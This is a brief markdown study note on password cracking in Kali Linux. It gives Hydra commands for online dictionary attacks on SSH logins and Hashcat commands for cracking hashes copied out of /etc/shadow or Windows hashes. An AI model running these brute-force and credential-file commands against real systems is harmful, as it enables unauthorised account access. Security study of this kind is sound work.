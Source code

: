# CYBER STUDY


## Kali Linux password cracking methods

https://www.youtube.com/watch?v=z4_oqTZJqCo


### Hydra for on-line hacking

Dictionary attack with list of passwords we think that might be used as password. System contains huge /usr/share/wordlists/rockyou.txt.gz file where are known password.

```bash
$ sudo gzip -d rockyou.txt.gz
$ cat rockyou.txt | wc -l
```

Make your own list of possible passwords and username if don't know one.
With userlist
```bash
$ sudo hydra -L usernames.txt -P wordlist.txt 10.0.0.10 ssh
```
and with one username example johnny.
```bash
$ sudo hydra -l "johnny" -P wordlist.txt 10.0.0.10 ssh
```
Last parameter can be example ftp,telnet...


### HashCat for off-line hacking

Need to have access somehow to /etc/shadow file.

Check what can find there. Find user's hashed password.
```bash
$ cat /etc/shadow
```
Then copy it into file hashes.txt and create another file wordlist.txt for list of possible passwords.
```bash
$ sudo hashcat -a 0 -m 1800 -o crackedpasswords.txt hashes.txt wordlist.txt
```
Hash can be placed into command line and this time windows hash type.
```bash
$ sudo hashcat -a 0 -m 1000 -o crackedpasswords.txt "<hash>" wordlist.txt
```
Look more info from manual page.
```bash
$ man hashcat
```